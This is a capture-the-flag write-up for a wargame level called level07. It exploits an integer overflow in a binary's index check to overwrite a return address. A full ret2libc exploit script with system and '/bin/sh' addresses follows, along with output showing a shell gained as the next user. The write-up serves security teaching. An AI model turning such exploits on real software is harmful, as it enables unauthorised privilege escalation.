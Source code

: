 # Integer overflow (level07)

This [binary](source.c) is basically a command prompt. The user can store a
number, read a number or quit. The store function is the vulnerable one.  It
will write a 32bit unsigned int into a *data* array of 100 elements. The user
will provide the index at which to write the *number*. However the only check
the program does on the user provided input is that it is not divisible by three
(*number* mod 3 != 0). This means that providing that it passes this condition
the user can write anywhere within a 32bit integer reach. It can take indexes
way beyond the length of the array, or even in the negatives.

The simplest thing to do here would be a
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/) exploit.
This would require writing on the index 114 for the *main* function and -10 for
*store_number*. The problem is that both indexes return 0 on mod 3. Also since
the *store_number* must be called two times to pass a parameter to the function
replacing the return address, the first number stored will be overwritten.

```shell
# what happens when directly trying to store at index 114
Input command: store
 Number: whatever
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

Now since the index 114 wont directly work we could do a got overwrite. The got
table is way before the stack in memory the index needs to be negative but this
is actually possible. The problem here is also passing a parameter. It can
probably be done by overwriting parameters already given to function whose got
address is being overwritten, but this is a lot of work. The simplest solution
is to overflow our index.

An overflow is possible because when computing the address where the number is
going to be written the index is multiplied by four (it is really shifted on the
left by two places, but it's the same thing). This is because the array is
storing 32bit numbers, which are 4 bytes long. All we need to do is to find a
32bit signed integer that when multiplied by 4 will overflow to 114 * 4 (456).

We start from our index in binary. 114 is 0b00000000000000000000000001110010.
Since it will be shifted left by two all we need is to add a bit in one or both
of the two first bits: 0b10000000000000000000000001110010. This is 2147483762 as
an unsigned int (although it will be interpreted as -2147483534 for a singed int
but it does not really matter since the same bitshift is applied anyway).

We can check that it works with [this](overflow.c) little helper program:

```shell
./a.out 2147483762
-2147483534 * 4 = 456
```

And it passes the mod 3 test since it is not divisible by three. Now we build
our payload. All we need is the address of system and the address of "/bin/sh"
in decimal form:

- system: 0xf7e6aed0 -> 4159090384
- "/bin/sh": 0xf7f897ec -> 4160264172

The indexes are 2147483762 and 116 respectively.

[Here](exploit.bash) is the exploit:

```shell
cat << END
store
4159090384		# system's address
2147483762		# index overflowing to 456

store
4160264172		# "/bin/sh" address
116				# index of system's parameter

quit			# make the main function return
END

cat				# keep the pipe open
```

```shell
# execute the exploit
./exploit.bash | ./level07
whoami
level08
```
